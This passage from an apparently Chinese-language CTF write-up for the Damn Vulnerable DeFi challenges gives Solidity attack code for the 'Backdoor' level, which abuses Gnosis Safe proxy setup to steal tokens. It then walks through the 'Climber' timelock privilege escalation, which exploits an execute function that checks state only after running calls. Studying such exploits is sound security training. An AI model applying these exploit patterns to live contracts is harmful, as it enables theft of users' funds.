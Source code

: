     constructor(address factoryAddress, address tokenAddress,address masterCopyAddress,address registryAddress, address[] memory usersAddress) {
        dvt = IToken(tokenAddress);
        factory = IProxyFactory(factoryAddress);
        masterCopy = masterCopyAddress;
        registry = registryAddress;
        users = usersAddress;
    }

    function approve(address spender, address tokenAddress) external {
        IToken(tokenAddress).approve(spender, type(uint256).max);
    }

    function attack() external {
        for (uint256 i = 0; i < users.length; i++) {
            address user = users[i];
            address[] memory owner = new address[](1);
            owner[0] = user;
            bytes memory approveData = abi.encodeWithSignature("approve(address,address)", address(this), address(dvt));
            bytes memory setupData = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)",owner,1,address(this),approveData,address(0),address(0),0,address(0));
            GnosisSafeProxy proxy = factory.createProxyWithCallback(masterCopy,setupData,0,IProxyCreationCallback(registry));
            dvt.transferFrom(address(proxy),msg.sender,GET_NUMBER);
        }
    }



### 12. Climber
该挑战的目标是将金库里的所有1000万个DVT全部盗走。
看到题目climber，就意识到这是一个提权挑战。审查金库valut合约，可看出金库是一个UUPS的可升级合约，并且他有一个sweepFunds函数可以把所有代币提出来。但是这个函数的调用者sweeper并不能更改，因此可以看出来这个函数只是一个障眼法。那么还有什么方法呢？注意到这是个proxy合约，那么他的实现是可以变换的，因此我需要把自己在proxy的权限提升到onwer，并把实现换成我的合约逻辑，才可以把代币转出。
接下来审查valut的owner：timeLock合约，看看怎么把owner转给自己，毕竟修改owner的transferOnwership必须由owner函数发出。注意到execute:
    
    function execute(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
        ) external payable {
        require(targets.length > 0, "Must provide at least one target");
        require(targets.length == values.length);
        require(targets.length == dataElements.length);

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length; i++) {
            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }
        
        require(getOperationState(id) == OperationState.ReadyForExecution);
        operations[id].executed = true;
    }
    有一个反编程习惯的做法：他先执行调用，做完之后才做检查。因此我们可以以这个函数为突破口来做提权，并绕过最后的require检查。
    timeLock需要先提出提案schedule（由proposer权限者提出），然后经过一个delay时间后，才能调用execute进行执行。因此包括我需要的transferOwnership，我需要execute以下四个操作：
1. 将delay时间修改为0。
2. 给attacker增加proposer权限。
3. 调用transferOwnership将valut的onwer权限转给attacker(提权操作）。
4. 将这四件事schedule给timeLock。（我们不能直接调用timeLock的schedule,这样我们无法编码dataElement里的数据，因此我们需要自己写一个schedule在攻击合约里，然后调用攻击合约的schedule）
   这样我们就完美地把自己提升为vault的owner，然后就可以为所欲为地把vault实现换成自己写的实现，并把代币转出了。
